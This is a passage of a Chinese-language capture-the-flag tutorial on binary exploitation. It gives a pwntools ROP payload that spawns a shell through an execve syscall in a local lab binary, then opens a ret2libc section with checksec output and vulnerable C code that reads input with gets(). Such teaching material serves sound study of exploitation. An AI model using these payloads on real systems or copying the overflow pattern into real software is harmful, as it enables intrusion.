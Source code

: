 同时，也找到对应的地址了。

下面就是对应的payload,其中0xb为execve对应的系统调用号。

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

## 题目

# ret2libc

## 原理

ret2libc即控制函数的执行 libc中的函数，通常是返回至某个函数的plt处或者函数的具体位置(即函数对应的got表项的内容)。一般情况下，我们会选择执行system("/bin/sh")，故而此时我们需要知道system函数的地址。

## 例子

我们由简单到难分别给出三个例子。

### 例1

这里我们以bamboofox中ret2libc1为例。首先，我们可以检查一下程序的安全保护

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为32位，开启了NX保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
